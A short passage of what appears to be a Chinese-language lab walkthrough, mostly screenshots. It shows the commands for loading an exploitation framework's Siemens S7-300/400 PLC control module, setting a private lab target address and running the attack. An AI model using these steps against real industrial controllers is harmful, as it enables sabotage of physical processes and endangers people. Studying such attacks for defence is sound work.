 [![](assets/1707954360-cd44d3068315d803e0fbbed1a1e04eb4.png)](https://payioad-img.oss-cn-beijing.aliyuncs.com/img/20240204134344.png)

使用 s7 300/400 攻击模块

```bash
use exploits/plcs/siemens/s7_300_400_plc_control
```

[![](assets/1707954360-8eb07d876a63833d9d7e22abbff17823.png)](https://payioad-img.oss-cn-beijing.aliyuncs.com/img/20240204134858.png)  
设置目标

```bash
set target 192.168.2.2
```

[![](assets/1707954360-3e920ae359bfb8d8aee6545159ae5dc8.png)](https://payioad-img.oss-cn-beijing.aliyuncs.com/img/20240204135008.png)  
开始攻击

```bash
run
```

[![](assets/1707954360-f79e0fc39a872bbe1b0d1c33f095ff1b.png)](https://payioad-img.oss-cn-beijing.aliyuncs.com/img/20240204135048.png)  